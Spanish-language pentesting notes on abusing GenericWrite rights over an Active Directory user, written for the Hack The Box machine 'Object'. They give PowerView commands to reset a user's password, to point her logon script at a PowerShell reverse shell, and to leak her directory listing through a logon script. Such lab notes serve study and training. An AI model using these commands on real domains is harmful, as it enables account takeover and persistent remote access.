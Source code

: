 ## DESCRIPTION


![[Pasted image 20230117194555.png]]



#### Mas información
* https://0xdf.gitlab.io/2022/02/28/htb-object.html
* Necesary: PowerView

## EXPLOITATION

### METHOD 1: Password Change

En la siguiente referencia sugieren utilizar este privilegio para cambiar la contraseña.
Referencia --> https://burmat.gitbook.io/security/hacking/domain-exploitation#reset-domain-user-password

![[Pasted image 20230117193957.png]]

**!!NOTA IMPORTANTE!!**  No suele funcionar.

```
$newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
Set-DomainUserPassword -Identity maria -AccountPassword $newpass
```

### METHOD 2: Kerberoasting
https://0xdf.gitlab.io/2022/02/28/htb-object.html

### METHOD 3: Logon Script

Este permiso se suele usar para actualizar los script de logon, es decir cuando un usuario inicia sesión se ejecuta lo que le digamos como el usuario sobre el que tenemos permisos (en el ejemplo maria), por ejemplo un .ps1.
Referencia --> https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user

1. La opción más logica puede ser subir una reverse shell:
```
 Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\Invoke-PowerShellTcp.ps1"}
```

2. Si por lo que sea, no tenemos salida hacia fuera entonces podemos enumerar y redirigimos la salida a una carpeta donde cualquier usuario pueda leer por ejemplo Temp o programdata:

```
echo "ls \users\maria\ > \programdata\out" > cmd.ps1
Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}
```


## MACHINES

* Hack The Box: Object


